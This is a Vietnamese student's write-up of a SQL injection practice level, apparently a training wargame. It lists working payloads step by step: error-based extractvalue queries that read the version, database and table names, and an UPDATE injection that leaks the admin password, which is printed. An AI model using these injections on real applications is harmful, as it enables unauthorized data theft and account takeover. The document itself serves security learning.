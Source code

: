 # <div align="center"><p> SQL-Injection/Level_8</p></div>
 ## Họ và tên: Mai Thị Hoàng Yến
 ## Ngày báo cáo: Ngày 06/5/2022
 ### MỤC LỤC
   [SQL-Injection](#gioithieu)
   
### Nội dung báo cáo 
#### SQL-Injection <a name="gioithieu"></a>
- B1: Đây là trang web của level8 .

  ![image](https://user-images.githubusercontent.com/101852647/167063084-e965f579-3c76-49c0-83c7-56d9beb872ed.png)

-B2: Thử chèn ' vào các vị trí trên bảng edit và thấy chỉ có hàng email là trả về lỗi. Như vậy, chúng ta có thể lợi dụng email để khai thác.

  ![image](https://user-images.githubusercontent.com/101852647/167063222-55ed3e2a-7f12-41ee-aa68-ba035ca5fc18.png)

- B3: Thử nhập lệnh `' union select 1,2#` nhưng vẫn trả về thông báo lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/167063307-8d69d33b-bb8e-4d29-a54b-6c8fa3c01602.png)

- B4: Ta sẽ dùng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select version()))) or '` để tìm phiên bản.

  ![image](https://user-images.githubusercontent.com/101852647/167063422-13fb7735-e185-43bc-abfc-49a19a52c4b8.png)

- B5: Ta sẽ dùng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select database()))) or '` để tìm database. Kết quả trả về chúng ta là `hackit`

  ![image](https://user-images.githubusercontent.com/101852647/167063493-d8dc1143-087c-462e-9181-c3699c334bb0.png)

- B6: Ta sẽ dùng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit  1 OFFSET 2))) or '` để tìm tên table. Nhưng kết quả trả về không ổn.

  ![image](https://user-images.githubusercontent.com/101852647/167063746-3f13eb6a-2557-4c16-afd4-22956fe93ae7.png)

- B7: Bây giờ ta mới để ý lại lỗi ban đầu ta gặp và sẽ dựa vào đó để khai thác. Ta thấy lỗi cú pháp gần `'union select 1,2,3#', icq = '12345', age = '25' WHERE id = 1' ` vậy thì chúng ta sẽ lợi dụng lỗ hổng này để khai thác bằng cách chèn thêm câu lệnh `', name=password,icq='` và kết quả trả về cho chúng ta password ngay ở dòng name.

  ![image](https://user-images.githubusercontent.com/101852647/167064143-c19d863b-1554-428c-876e-832aa861f403.png)
  
- B8: Sau kkhi đăng nhập với `username=Admin` và `password=19JPYS1jdgvkj` thì đã đăng nhập thành công.

  ![image](https://user-images.githubusercontent.com/101852647/167064225-57b4d6ca-18ff-44da-b444-d5dc2547ff88.png)




  ![image](https://user-images.githubusercontent.com/101852647/167063882-c1234756-f062-4e71-82f9-78f38dc3034b.png)
